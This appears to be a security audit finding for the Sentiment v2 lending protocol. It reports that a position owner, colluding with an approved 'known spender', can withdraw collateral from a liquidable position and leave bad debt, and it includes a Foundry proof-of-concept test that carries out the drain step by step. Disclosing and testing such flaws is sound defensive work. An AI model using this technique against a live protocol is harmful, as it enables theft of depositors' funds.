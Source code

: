 Zesty Rainbow Wombat

High

# A position owner can drain his whole position funds with a collusion from a known spender.

### Summary

A position owner can drain his whole position funds with a collusion from a known spender. As a result, he might also drain all the pools. 

### Root Cause

A position owner can grant a known spender the allowance to move assets from his position to any other wallet address. This power is available even when the position is liquidable. 

[https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/PositionManager.sol#L341-L358](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/PositionManager.sol#L341-L358)

### Internal pre-conditions

A position owner grants a known spender the full allowance of any asset in his position when the position is healthy. 

### External pre-conditions

The known spender will help transfer all the assets in the position to the position owner, even when the position is liquidable. 

### Attack Path

In our POC, we show: 

1. The pool owner opens a position with a huge collateral amount and borrow a huge amount of debt asset1 against the collateral asset2. 
2. While the position is healthy, he grants spender1 the full allowance to transfer asset2. 
3. While the position is healthy, the position owner transfers all lent asset1 to ```positionOwner```. 
4. The price drops, so the position becomes liquidable. 
5. However, spender1 is still be able to transfer all asset2 to ```positionOwner```.
6. Finally, ```positionOwner``` owes all the collateral tokens as well as lent tokens. The position is left with a huge debt, which becomes a bad debt for the protocol. 
7. This procedure can be repeated with different positions until all pools are drained. 

### Impact

A position owner can drain his whole position funds with a collusion from a known spender. As a result, he might also drain all the pools. 

### PoC

run ```forge test --match-test testDrainPosition -vv```.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import { FixedRateModel } from "../../src/irm/FixedRateModel.sol";
import { LinearRateModel } from "../../src/irm/LinearRateModel.sol";
import "../BaseTest.t.sol";
import { MockERC20 } from "../mocks/MockERC20.sol";
import { OwnableUpgradeable } from "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import { Action, Operation } from "src/PositionManager.sol";
import { IOracle } from "src/interfaces/IOracle.sol";
import { FixedPriceOracle } from "src/oracle/FixedPriceOracle.sol";
import {DebtData, AssetData} from "../../src/PositionManager.sol";


contract PositionManagerUnitTests is BaseTest {
    // keccak(SENTIMENT_POOL_KEY)
    bytes32 public constant SENTIMENT_POOL_KEY = 0x1a99cbf6006db18a0e08427ff11db78f3ea1054bc5b9d48122aae8d206c09728;
    // keccak(SENTIMENT_RISK_ENGINE_KEY)
    bytes32 public constant SENTIMENT_RISK_ENGINE_KEY =
        0x5b6696788621a5d6b5e3b02a69896b9dd824ebf1631584f038a393c29b6d7555;
    // keccak(SENIMENT_POSITION_BEACON_KEY)
    bytes32 public constant SENTIMENT_POSITION_BEACON_KEY =
        0x6e7384c78b0e09fb848f35d00a7b14fc1ad10ae9b10117368146c0e09b6f2fa2;

    Pool pool;
    Registry registry;
    address payable position;
    RiskEngine riskEngine;
    RiskModule riskModule;
    PositionManager positionManager;

    address public positionOwner = makeAddr("positionOwner");
    FixedPriceOracle asset1Oracle;
    FixedPriceOracle asset2Oracle;
    FixedPriceOracle asset3Oracle;

    function setUp() public override {
        console2.log("testContract: ", address(this));
        super.setUp();

        asset1Oracle = new FixedPriceOracle(10e18);
        asset2Oracle = new FixedPriceOracle(0.5e18);
        asset3Oracle = new FixedPriceOracle(1e18);

        pool = protocol.pool();
        registry = protocol.registry();
        riskEngine = protocol.riskEngine();
        riskModule = riskEngine.riskModule();
        positionManager = protocol.positionManager();

        vm.startPrank(protocolOwner);
        riskEngine.setOracle(address(asset1), address(asset1Oracle));
        riskEngine.setOracle(address(asset2), address(asset2Oracle));
        riskEngine.setOracle(address(asset3), address(asset3Oracle));
        vm.stopPrank();

        asset1.mint(address(this), 10_000 ether);
        asset1.approve(address(pool), 10_000 ether);

        pool.deposit(linearRatePool, 10_000 ether, address(0x9)); // liquidity pool

        Action[] memory actions = new Action[](1);
        (position, actions[0]) = newPosition(positionOwner, bytes32(uint256(3_492_932_942))); // salt
        console2.log("position: ", position);  // position owned by positionOwner...each positionOwner can have multipol eposition with different salt
                                               // so one can open a psotion for another owner?
        PositionManager(positionManager).processBatch(position, actions);


        vm.startPrank(poolOwner);
        riskEngine.requestLtvUpdate(linearRatePool, address(asset3), 0.75e18);
        riskEngine.acceptLtvUpdate(linearRatePool, address(asset3));
        riskEngine.requestLtvUpdate(linearRatePool, address(asset2), 0.75e18);
        riskEngine.acceptLtvUpdate(linearRatePool, address(asset2));
        vm.stopPrank();

        console2.log("EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE\n \n ");
    }

    
    function printPosition(address pos, string memory name) public view{
        console2.log("\n -------------------------------------------------------------");
        console2.log("infor for position: ", name);
        console2.log("asset 1 balance: ", asset1.balanceOf(pos));
        console2.log("asset 2 balance: ", asset2.balanceOf(pos));
        console2.log("totalAssetValue: ", riskModule.getTotalAssetValue(pos));
        console2.log("totalDebtValue: ", riskModule.getTotalDebtValue(pos));
        console2.log("healthy? ", riskModule.isPositionHealthy(pos));
        console2.log("\n -------------------------------------------------------------");
    }

     function printBalances(address pos, string memory name) public view{
        console2.log("\n -------------------------------------------------------------");
        console2.log("Balances for  ", name);
        console2.log("asset 1 balance: ", asset1.balanceOf(pos));
        console2.log("asset 2 balance: ", asset2.balanceOf(pos));
        console2.log("\n -------------------------------------------------------------");
    }


    function testDrainPosition() public {      // ???
        vm.startPrank(poolOwner);
           
         riskEngine.requestLtvUpdate(linearRatePool, address(asset2), 0.75 ether);    // asset2 as collateral , asset1 as lend tokens
         vm.warp(block.timestamp + 1 days);
         riskEngine.acceptLtvUpdate(linearRatePool, address(asset2));
         vm.stopPrank();
        
       
        testSimpleDepositCollateral(100 ether);        // collateral is in position

        vm.startPrank(positionOwner);   // add asset2  collateral tokens
        Action memory action = addToken(address(asset2));
        PositionManager(positionManager).process(position, action);
        vm.stopPrank();

        printPosition(position, "position before borrow");


        printBalances(positionOwner, "PositionOwner before borrow...");
        vm.startPrank(positionOwner);
        bytes memory data = abi.encode(linearRatePool, 2 ether);       // borrow 2 ether of asset1
        action = Action({ op: Operation.Borrow, data: data });
        Action[] memory actions = new Action[](1);
        actions[0] = action;
        PositionManager(positionManager).processBatch(position, actions);
        vm.stopPrank();        

        // make spender1 known
        address spender1 = makeAddr("spender1");
        vm.startPrank(protocolOwner);
        positionManager.toggleKnownSpender(spender1);
        vm.stopPrank();

        // approve spender1
        vm.startPrank(positionOwner);   
        bytes memory data1 = abi.encodePacked(address(spender1), address(asset2), type(uint256).max);  
        bytes memory data2 = abi.encodePacked(address(positionOwner), address(asset1), type(uint256).max); // transfer all

        Action memory action1 = Action({op: Operation.Approve, data: data1});
        Action memory action2 = Action({op: Operation.Transfer, data: data2});
        actions = new Action[](2);
        actions[0] = action1;
        actions[1] = action2;
        PositionManager(positionManager).processBatch(position, actions);
        vm.stopPrank();
     
    
        console2.log("\n The price of asset2 goes down, the position becomes liquidable.");
         testOracle = new FixedPriceOracle(0.25e18);
        console2.log("testOracle: ", address(testOracle));
        vm.startPrank(protocolOwner);
        protocol.riskEngine().setOracle(address(asset2), address(testOracle));
        vm.stopPrank();

        printPosition(position, "after price drops");

        // but the spender1 can help me steal all asset2 collateral
        console2.log("balance of asset2: ", asset2.balanceOf(address(position)));
        console2.log("allowance of spender1: ", asset2.allowance(address(position), spender1));
        vm.startPrank(spender1);
        asset2.transferFrom(address(position), positionOwner, asset2.balanceOf(address(position)));
        vm.stopPrank();

        printPosition(position, "position after stealing asset2");
        printBalances(positionOwner, "positionOwner after stealing...");
        
    }
}
```

### Mitigation

1. Do not support the ```approve``` function. Instead, develop custom ```transfer``` function that is managed with caution of authorization.
2. The spender can never have more power than the position owner himself. Currently, the spender can transfer frunds from a position while the position owner cannot when a position is liquidable. 
3. 